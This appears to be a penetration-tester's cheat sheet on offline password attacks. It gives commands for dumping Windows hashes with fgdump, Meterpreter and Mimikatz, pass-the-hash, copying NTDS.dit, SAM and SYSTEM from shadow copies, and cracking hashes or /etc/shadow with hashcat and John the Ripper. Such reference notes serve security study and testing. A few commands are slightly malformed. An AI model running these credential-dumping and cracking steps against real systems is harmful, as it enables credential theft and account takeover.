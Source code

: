 # Offline Attack

## Extracting Password Hashes from Windows

### fgdump

Run fgdump to dump local hash

> `fgdump.exe`

### Meterpreter's Hashdump

> `meterpreter > hashdump`

### Mimikatz

> `PS C:\temp\mimikatz> .\mimikatz`

* get debug rights \(this or Local System rights is required for many Mimikatz commands\).
* by default, the Administrators group has Debug rights. Debug still has to be “activated” by running “privilege::debug”.

> `mimikatz # privilege::debug`

* lists all available provider credentials. This usually shows recently logged on user and computer credentials.
* Services running with account credentials are also dumped using this command.
* Note that only services that are running \(credentials in memory\) can be dumped in this manner.

> `mimikatz # sekurlsa::logonpasswords`

#### Pass the Hash with Mimikatz

If you can’t crack the hash of a local administrator account you can instead just inject the hash into memory to gain the privileges:

> `sekurlsa::pth /user:Administrator /domain:{domain name} /ntlm:{ntlm hash here} /run:cmd`

### Volume Shadow Copy Services to copy ntds.dit

> `cscript vssown.vbs /start`
>
> `cscript vssown.vbs /create`
>
> `copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\NTDS\NTDS.dit c:\`
>
> `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SYSTEM c:\`
>
> `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SAM c:\`

## Hash identification

There are generally speaking three pieces of data we can use to identify a hash.

* The length of the hash
* The character set
* Any special characters

We can use hash-identifier to identify the hash algorithm from the hashed password.

`hash-identifier`

## Cracking the Password

### Hashcat

Put the hashed password file \(test.hash\) and dictionary \(rockyou.txt\) in the same directory and execute the below command:

> `hashcat -m 100 test.hash rockyou.txt`  
> `-m`  
> `-m 100`

### John the ripper \(\*\)

Use the program "unshadow" which is included in John the Ripper to convert obtained /etc/passwd and /etc/shadow files to a combined file for John \(e.g. crackme.txt below\)

> `unshadow /etc/passwd /etc/shadow >> crackme.txt`

Cracking the file generated by unshadow \(**crackme.txt**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

> `john crackme.txt--wordlist=rockyou.txt`

Convert an encrypted SSH key to a format readable by John

> `ssh2john encrypted-key >> crackme-ssh`

Cracking the file generated by ssh2john \(**crackme-ssh**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

> `john crackme-ssh --wordlist=rockyou.txt`

Crack MD5 hashes that are in a file called hashes using a dictionary/wordlist brute-force

> `john--format=md5 hashes --wordlist=rockyou.txt`

John configuration file

* Linux

  > john.conf

* Windows 

  > john.ini

john.pot file is where the cracking results stored.

> `john --show [password_file]`

john.rec is the recovery file in the event of a crash. To restore cracking

> `john --restore`

